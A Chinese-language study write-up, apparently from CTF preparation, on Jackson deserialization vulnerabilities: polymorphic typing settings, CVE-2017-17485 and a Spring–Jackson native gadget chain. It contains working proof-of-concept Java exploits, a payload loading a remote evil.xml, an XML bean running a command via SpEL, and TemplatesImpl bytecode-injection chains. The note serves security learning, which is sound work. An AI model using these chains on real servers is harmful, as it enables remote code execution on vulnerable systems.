


# Jackson 反序列化漏洞

1. 先学的 Fastjson 的反序列化漏洞，最近的 DASCTF 中用到了 Jackson 的反序列化链，这里就趁热打铁，嘎嘎学。

2. 主要参考以下文章：

    > https://github.com/bfengj/CTF/blob/main/Web/java/Jackson/Jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86.md
    > https://www.mi1k7ea.com/2019/11/13/Jackson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#0x01-Jackson%E7%AE%80%E4%BB%8B
    > https://fynch3r.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/
    >
    > 有关 Spring - Jackson 的原生序列化链：
    > https://mak4r1.com/write-ups/spring-jackson%E5%8E%9F%E7%94%9F%E9%93%BE/#%E8%A7%A3%E5%86%B3%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E7%9A%84%E9%97%AE%E9%A2%98
    > https://harmless.blue/posts/609bf338-4ee6-43cf-892d-7026db50d41e

## 1. Jackson 的基本介绍

1. 功能和 Fastjson 差不多，主要是它拥有 Spring 生态加持，更受使用者的青睐。按照使用者的说法 Jackson 的速度是最快的。
2. 它只使用了 JDK 的库。

## 2. Jackson 序列化的基本使用

1. Jackson 提供了 `ObjectMapper.writeValueAsString()` 和 `ObjectMapper.readValue()` 两个方法来分别进行序列化和反序列化的操作。

2. 来演示一个 Demo 吧：
    先随便来一个类：

    ```java
    package com.endlessshw.jacksonrange.Bean;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 用户类
     * @date 2024/10/26 14:28
     */
    public class User {
        public String name;
        public int age;
    
        public String getName() {
            return name;
        }
    
        public void setName(String name) {
            this.name = name;
        }
    
        public int getAge() {
            return age;
        }
    
        public void setAge(int age) {
            this.age = age;
        }
    }
    ```

    对其进行序列化和反序列化：
    ```java
    package com.endlessshw.jacksonrange;
    
    import com.endlessshw.jacksonrange.Bean.User;
    import com.fasterxml.jackson.databind.ObjectMapper;
    import org.junit.jupiter.api.Test;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 测试 Jackson 序列化和反序列化
     * @date 2024/10/26 14:20
     */
    public class JacksonTest {
        @Test
        public void testJackson() throws IOException {
            User user = new User();
            user.setName("EndlessShw");
            user.setAge(24);
            ObjectMapper objectMapper = new ObjectMapper();
    
            // 序列化
            String serializedStr = objectMapper.writeValueAsString(user);
            System.out.println(serializedStr);
    
            // 反序列化
            User unserializedUser = objectMapper.readValue(serializedStr, user.getClass());
            System.out.println(unserializedUser);
        }
    }
    ```

3. 结果如下：
    

## 3. 涉及漏洞触发的重要特性 - Jackson 针对 Java 多态问题的解决

1. 引用：

    > 简单地说，Java 多态就是同一个接口使用不同的实例而执行不同的操作。
    >
    > 那么问题来了，如果对多态类的**某一个子类实例**在序列化后再进行反序列化时，如何能够保证反序列化出来的实例即是我们想要的那个特定子类的实例而非多态类的其他子类实例呢？—— Jackson 实现了JacksonPolymorphicDeserialization 机制来解决这个问题。
    >
    > JacksonPolymorphicDeserialization 即 Jackson 多态类型的反序列化：在反序列化某个类对象的过程中，如果类的成员变量不是具体类型（non-concrete），比如 Object、接口或抽象类，则可以在 JSON 字符串中指定其具体类型，Jackson 将生成**具体类型的实例**。
    >
    > 简单地说，就是将具体的子类信息绑定在序列化的内容中以便于后续反序列化的时候直接得到目标子类对象，其实现有两种，即 DefaultTyping 设置和`@JsonTypeInfo` 注解。

### 3.1 DefaultTyping 设置

1. 先来介绍其使用方法，首先官方给出了一个枚举类：
    ```java
    public enum DefaultTyping {
           /**
            * This value means that only properties that have
            * {@link java.lang.Object} as declared type (including
            * generic types without explicit type) will use default
            * typing.
            */
           JAVA_LANG_OBJECT,
           
           /**
            * Value that means that default typing will be used for
            * properties with declared type of {@link java.lang.Object}
            * or an abstract type (abstract class or interface).
            * Note that this does <b>not</b> include array types.
            *<p>
            * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
            */
           OBJECT_AND_NON_CONCRETE,
    
           /**
            * Value that means that default typing will be used for
            * all types covered by {@link #OBJECT_AND_NON_CONCRETE}
            * plus all array types for them.
            *<p>
            * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
            */
           NON_CONCRETE_AND_ARRAYS,
           
           /**
            * Value that means that default typing will be used for
            * all non-final types, with exception of small number of
            * "natural" types (String, Boolean, Integer, Double), which
            * can be correctly inferred from JSON; as well as for
            * all arrays of non-final types.
            *<p>
            * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
            */
           NON_FINAL
       }
    ```

    一共有四种类型。
    再来看看其设置方法：

    ```java
    // 先拿到 ObjectMapper
    ObjectMapper mapper = new ObjectMapper();
    // 然后设置四个枚举中的其中一个即可
    mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
    // 后接序列化和反序列化
    ```

2. 详细的使用例子参考：

    > https://www.mi1k7ea.com/2019/11/13/Jackson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#DefaultTyping

    这里给出表格，可以看出就是一个范围逐渐扩大的过程：
    | 类型                              | 特性                                                         |
    | --------------------------------- | ------------------------------------------------------------ |
    | `JAVA_LANG_OBJECT`                | 参与序列化过程的类，其中属性（成员）为 Object 的对象也会参与序列化过程，同时会在序列化后中的字符串中明确规定该属性（成员） Object 的类名。 |
    | `OBJECT_AND_NON_CONCRETE`（默认） | 上述范围扩大到 Object、Interface、AbstractClass。            |
    | `NON_CONCRETE_AND_ARRAYS`         | 上述范围再次扩大，Array 加入其中。                           |
    | `NON_FINAL`                       | 还在扩大，包含即将被序列化的类里的全部、非 final 的属性，也就是相当于**整个类、除 final 外的属性信息**都需要被序列化和反序列化。 |

    然后就是提一下细节，Array 参与序列化时，如果 Array 是一个类数组，例如 `User[] users = new User[2]`，这时成员 `users` 指定的类名就会变成：`[L` + `类名` + `;`。

### 3.2 `@JsonTypeInfo` 注解

1. 还是先来看看这个注解的内容，官方在注解中定义了一个枚举类：
    ```java
    /**
     * Definition of different type identifiers that can be included in JSON
     * during serialization, and used for deserialization.
     */
    public enum Id {
        /**
         * This means that no explicit type metadata is included, and typing is
         * purely done using contextual information possibly augmented with other
         * annotations.
         */
        NONE(null),
    
        /**
         * Means that fully-qualified Java class name is used as the type identifier.
         */
        CLASS("@class"),
    
        /**
         * Means that Java class name with minimal path is used as the type identifier.
         * Minimal means that only the class name, and that part of preceding Java
         * package name is included that is needed to construct fully-qualified name
         * given fully-qualified name of the declared supertype; additionally a single
         * leading dot ('.') must be used to indicate that partial class name is used.
         * For example, for supertype "com.foobar.Base", and concrete type
         * "com.foo.Impl", only ".Impl" would be included; and for "com.foo.impl.Impl2"
         * only ".impl.Impl2" would be included.
         *<br>
         * <b>NOTE</b>: leading dot ('.') MUST be used to denote partial (minimal) name;
         * if it is missing, value is assumed to be fully-qualified name. Fully-qualified
         * name is used in cases where subtypes are not in same package (or sub-package
         * thereof) as base class.
         *<p>
         * If all related classes are in the same Java package, this option can reduce
         * amount of type information overhead, especially for small types.
         * However, please note that using this alternative is inherently risky since it
         * assumes that the
         * supertype can be reliably detected. Given that it is based on declared type
         * (since ultimate supertype, <code>java.lang.Object</code> would not be very
         * useful reference point), this may not always work as expected.
         */
        MINIMAL_CLASS("@c"),
    
        /**
         * Means that logical type name is used as type information; name will then need
         * to be separately resolved to actual concrete type (Class).
         */
        NAME("@type"),
    
        /**
         * Means that typing mechanism uses customized handling, with possibly
         * custom configuration. This means that semantics of other properties is
         * not defined by Jackson package, but by the custom implementation.
         */
        CUSTOM(null)
            ;
    
        private final String _defaultPropertyName;
    
        private Id(String defProp) {
            _defaultPropertyName = defProp;
        }
    
        public String getDefaultPropertyName() { return _defaultPropertyName; }
    }
    ```

    然后使用 `use` 来进行赋值：
    

2. 使用方法就是直接在类的属性上添加注解：
    `@JsonTypeInfo(use = JsonTypeInfo.Id.xxx)`。
    详细的利用示例参考：

    > https://www.mi1k7ea.com/2019/11/13/Jackson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#JsonTypeInfo%E6%B3%A8%E8%A7%A3

    直接上总结：
    | 注解值                          | 详情                                                         |
    | ------------------------------- | ------------------------------------------------------------ |
    | `JsonTypeInfo.Id.NONE`          | 有无这个没区别，摆设（                                       |
    | `JsonTypeInfo.Id.CLASS`         | 序列化的内容中，额外使用`@class`指定属性（成员） Object 的类名。 |
    | `JsonTypeInfo.Id.MINIMAL_CLASS` | 和 `JsonTypeInfo.Id.CLASS` 一样，只不过`@class`变成了`@c`。  |
    | `JsonTypeInfo.Id.NAME`          | 多了 `@type`，从官方的解释可以看出它是一个“逻辑”标签，指定类时不会指出其完整的包名，所以没法被反序列化利用。 |
    | `JsonTypeInfo.Id.CUSTOM`        | 需要自定义，手写解析器。                                     |

### 3.3 漏洞存在条件和基本原理

1. 首先上述的设置均在**反序列化端/服务端**设置。

2. 其次它这个序列化和常见的 Java 反序列化亦或是 Fastjson 的序列化有一定的区别，重点在于反序列化：
    `objectMapper.readValue(serializedStr, 目标.class)`。
    根据实际的业务不同，这里的 `目标.class` 也不同。
    而漏洞的触发点还在于这个目标类内**是否存在类为 `Object`、`Interface` 等的成员/属性**。
    以 `ClassPathXmlApplicationContext` 利用链为例，网上常见的 PoC 就是：

    ```java
    String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8000/spel.xml\"]";
    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    // 这里转成的是 Object.class
    mapper.readValue(payload, Object.class);
    ```

    但是实际业务毕竟不会就转成个 `Object`，假如我这里有个 Bean：
    ```java
    package com.endlessshw.jacksonrange.Bean;
    
    import com.fasterxml.jackson.annotation.JsonTypeInfo;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 用户类
     * @date 2024/10/26 14:28
     */
    public class User {
        public String name;
        public int age;
        // @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
        public Object test;
    
        public String getName() {
            return name;
        }
    
        public void setName(String name) {
            this.name = name;
        }
    
        public int getAge() {
            return age;
        }
    
        public void setAge(int age) {
            this.age = age;
        }
    
        @Override
        public String toString() {
            return "User{" +
                    "name='" + name + '\'' +
                    ", age=" + age +
                    '}';
        }
    
        // public void setTest(Object test) throws IOException {
        //     Runtime.getRuntime().exec("calc");
        // }
    
    
        public void setTest(Object test) {
            this.test = test;
        }
    }
    ```

    我现在要将反序列化的内容转成这个类，那么直接打以下 PoC 是不行的，因为没有匹配到 `User.test`：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.readValue(payload, User.class);
        // User user = new User();
        // user.setTest(new ClassPathXmlApplicationContext("http://127.0.0.1:8888/evil.xml"));
        // ObjectMapper mapper = new ObjectMapper();
        // mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
        // String payload = mapper.writeValueAsString(user);
        // mapper.readValue(payload, User.class);
    }
    ```

    只有对应才可以：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        // String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        // ObjectMapper mapper = new ObjectMapper();
        // mapper.enableDefaultTyping();
        // mapper.readValue(payload, User.class);
        User user = new User();
        user.setTest(new ClassPathXmlApplicationContext("http://127.0.0.1:8888/evil.xml"));
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);
        String payload = mapper.writeValueAsString(user);
        mapper.readValue(payload, User.class);
    }
    ```

    
    所以说，在实际打的时候，不是 Payload 直接梭哈就行，相当一部分取决于目标的类是什么结构，你的 Payload 需要塞入那个成员/属性里面。

3. 参考的大部分文章并没有强调这一点，所以我个人认为存在漏洞的条件还需要进一步说明。
    因此这里给出个人的见解：

    1. 首先是服务端本身对 JacksonPolymorphicDeserialization 的（可能）配置不当问题。这其中就主要包括 2 点：
        1. 使用 `ObjectMapper.enableDefaultTyping()` 函数。
        2. 对反序列化的成员/属性配置了值为 `JsonTypeInfo.Id.CLASS` 或 `JsonTypeInfo.Id.MINIMAL_CLASS` 的 `@JsonTypeInfo` 注解。
    2. 其次就是针对 `objectMapper.readValue(serializedStr, 目标.class)`，要不然你拿到它的源码，知道它的目标类，然后照葫芦画瓢创建类去打；
        要不然就是服务端心大，直接配置：
        `objectMapper.readValue(serializedStr, Object.class)`。

4. 基本原理就是，反序列化对象时，会调用**对象的成员/属性的实现类的 setter 和构造函数**，从而完成这个成员/属性的实例化。这个漏洞的触发过程就在这 setter 和构造函数中。

## 4. `ClassPathXmlApplicationContext` 利用链（CVE-2017-17485）

### 4.1 影响版本

1. Jackson 2.7系列 < 2.7.9.2
2. Jackson 2.8系列 < 2.8.11
3. Jackson 2.9系列 < 2.9.4

### 4.2 需要使用的环境

1. Jackson 的三个依赖：jackson-databind、jackson-core 和 jackson-annotations。
2. Spring 依赖：个人用的 Spring 5.2.23，直接上的 spring-boot-starter。其他文章中有明显的依赖指明：spring-beans，spring-context，spring-core，spring-expression、commons-logging。

### 4.3 漏洞分析

1. 漏洞的调试过程详见：

    > https://xz.aliyun.com/t/12966?time__1311=GqGxuD9QLxlr%3DiQGkQebnDAxxfxmq%2BImD#toc-25
    > https://fynch3r.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/

2. 自己大概调了以下发现，没有 Spring 对 Bean 处理的底层知识时，debug 起来很费劲，而且也仅仅只是跟着流程走了一遍罢了。

3. 直接来看 `ClassPathXmlApplicationContext` 的构造函数：
    
    
    主要是两个内容，一个是 `configLocation`，还有一个是 `refresh()`。

4. 先来看一下 `setConfigLocations()`：
    
    最终就是将成员复制到 `ClassPathXmlApplicationContext.configLocations`，其中 `AbstractRefreshableConfigApplicationContext` 是 `ClassPathXmlApplicationContext` 的父类。

5. todo

6. 总结来讲，就是 `ClassPathXmlApplicationContext` 的构造函数中会触发远程 Bean 加载，同时会执行 Bean 中的 SpEL 表达式。

### 4.4 PoC

1. 以 `objectMapper.readValue(serializedStr, Object.class)` 为例子，构造 PoC：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.readValue(payload, Object.class);
    
    }
    ```

2. 这里给出 evil.xml：
    ```xml
    <beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="
    http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="EndlessShw" class="java.lang.ProcessBuilder">
     <constructor-arg value="calc" />
     <property name="whatever" value="#{ EndlessShw.start() }"/>
    </bean>
    </beans>
    ```

### 4.5 补丁

1. 直接引入吧：

    > 在 `jackson-databind-2.7.9.2-sources.jar!\com\fasterxml\jackson\databind\jsontype\impl\SubTypeValidator.java` 中可以看到具体的黑名单信息，但所使用的调用类并没有出现在黑名单上，但是在调用`BeanDeserializerFactory.createBeanDeserializer` 时会调用`_validateSubType()`对子类型进行校验。先进行黑名单过滤，发现类名不在黑名单后再判断是否是以 `org.springframe` 开头的类名，是的话循环遍历目标类的父类是否为 `AbstractPointcutAdvisor` 或 `AbstractApplicationContext` 是的话跳出循环然后抛出异常。

## 5. Spring - Jackson 反序列化链

1. 其实这个链更偏向 Java 的原生反序列化链，只不过其中用到了 Jackson 的序列化过程。
2. 影响版本：个人测试所得
    2.10.0 <= version <=

### 5.1 chain1 - `ObjectMapper.writeValueAsString()`

1. 底层原理就是 Jackson 通过 `writeValueAsString` 将对象转为JSON字符串的时候，获取对象属性的时候会自动调用其 getter 方法。
2. 想到 getter，那么肯定就会想到那位经典的 sink - `TemplatesImpl.getOutputProperties`。
3. 那现在的方向就是，找到一个类的 `readObject()`，它能够触发 Jackson 的序列化并序列化任意类。

### 5.2 chain2 - `BaseJsonNode`

1. 可能无法直接找到一个类的 `readObject()`，它能够触发 Jackson 的序列化并序列化任意类。因此退而求其次，找到 `BaseJsonNode#toString()`，来看看这个类和它的对应方法：
    
    
    跟进这个 `InternalNodeMapper.nodeToString()`：
    
    这正好就是我们想要的结果。
2. 现在问题就是这个 `BaseJsonNode` 是一个抽象类，而且序列化的对象是 `this`。那么怎么让其序列化 sink 呢？这就要去了解 Jackson 中的 JsonNode 了。
    
    JsonNode 是 Jackson 中为了处理 JOSN 文本的树模型(tree model)。可以将 JSON 文本转成 JsonNode，也可以将 JsonNode 转成 JOSN 文本。JsonNode 是只读的，不可修改，用它可以方便的获取 JSON 中某字段的值。
    现在只需要它其中的一个实现类，其包裹住 sink 就行，因此可以选择简单的 `POJONode`。

### 5.3 PoC 不稳定构造

1. `readObject()` 中会触发 `toString()` 的，可以想到 CC5 中的 `BadAttributeValueExpException`，又或者是 XBean 链中的 `HashMap + XString + HotSwappableTargetSource`。这里就先用最简单的 `BadAttributeValueExpException`。PoC 如下：

    ```java
    // 使用了 javassist 辅助构造
    @Test
    public void testJacksonChain() throws Exception{
        // 1. 构造 sink
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.jacksonrange.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 移除掉 BaseJsonNode 的 writeReplace 方法，防止序列化失败
        CtClass baseJNctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = baseJNctClass.getDeclaredMethod("writeReplace");
        baseJNctClass.removeMethod(writeReplace);
        baseJNctClass.toClass();
    
        // 3. 构造 chain
        POJONode jsonNodes = new POJONode(templates);
    
        // 4. 构造 kick-off
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(toBeSerBAVEException, jsonNodes);
    
        String serialize = SerializeUtil.serialize(toBeSerBAVEException);
        SerializeUtil.unSerialize(serialize);
    }
    ```

2. 在 Rome 链中提到，触发 `TemplatesImpl` 的所有 getter 时会触发 `TemplatesImpl#getStylesheetDOM()`，会导致空指针报错。所以得想个能稳定不报错的方式。

### 5.4 引入代理来保证稳定触发

1. Rome 中的 `ToStringBean` 底层还是调用了反射，那么想到反射，就会想到代理（毕竟动态代理触发方法也是通过反射），那么现在就需要找到一个 `InvocationHandler`，它的 `invoke` 就直接触发被代理对象的方法即可。然后代理对象只需要代理接口 `Templates` 就行。
2. 自己试了找一下，继承 `InvocationHandler` 和 `Serializable`，同时 `invoke` 还要尽量调用 `method.invoke()` 的，暂时没找到，就先看别人已经找到的 `JdkDynamicAopProxy` 吧。
3. 先来看他 `invoke` 中触发反射调用的方法：
    
    显然第一个 `if` 是很难绕过的，主要是 `isAssignableFrom(Advised.class)` 这个难办，所以把目光放在第二个 `AopUtils.invokeJoinpointUsingReflection()`。
    先来大概看一眼 `AopUtils.invokeJoinpointUsingReflection()` 的调用逻辑：
    
    很简单，所以现在就两个问题：
    1. 这个传入的 `target` 就是 `templatesImpl`。
    2. 如何绕过 `chain.isEmpty()`。
4. 先来看第一个问题，`target` 来自 `target = targetSource.getTarget();`。`targetSource` 又来自 `TargetSource targetSource = this.advised.targetSource;`。而 `advised` 可以在构造函数中赋值。所以来看看 `advised` 的类 - `AdvisedSupport` 中能否有办法能设置 `advised.targetSource.target = templatesImpl`。很巧的是，它确实有办法可以直接设置：
    
    到此这个问题就解决了。
5. 然后就是那个 if 绕过了，来看看 `chain` 的来源方法：`this.advised.getInterceptorsAndDynamicInterceptionAdvice()`
    
    可以看到这个方法是获取一个 `list`。获取的来源就是给定的方法中的 ` org.aopalliance.intercept.MethodInterceptor` 对象，但是这个对象在我们实际的调用中并没有，因此这个 `if` 不用管他，其会自动绕过。

### 5.5 稳定 PoC

1. 将上一点所讲内容实现，得到的 PoC 如下：
    ```java
    @Test
    public void testJacksonChain_stable() throws Exception {
        // 1. 构造 sink
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.jacksonrange.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 移除掉 BaseJsonNode 的 writeReplace 方法，防止序列化失败
        CtClass baseJNctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = baseJNctClass.getDeclaredMethod("writeReplace");
        baseJNctClass.removeMethod(writeReplace);
        baseJNctClass.toClass();
    
        // 3. 构造 chain
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        POJONode jsonNodes = new POJONode(proxy);
    
        // 4. 构造 kick-off
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(toBeSerBAVEException, jsonNodes);
    
        String serialize = SerializeUtil.serialize(toBeSerBAVEException);
        SerializeUtil.unSerialize(serialize);
    }
    ```

2. 总结一下链的大体过程：
    ```java
    /*
    	BadAttributeValueExpException.readObject()
    		POJONode[BaseJsonNode].toString()
    			Templates(Proxy).getOutputProperties()
    				JdkDynamicAopProxy.invoke()
    					AopUtils.invokeJoinpointUsingReflection()
    						templatesImpl.getOutputProperties()
    */
    ```

3. 
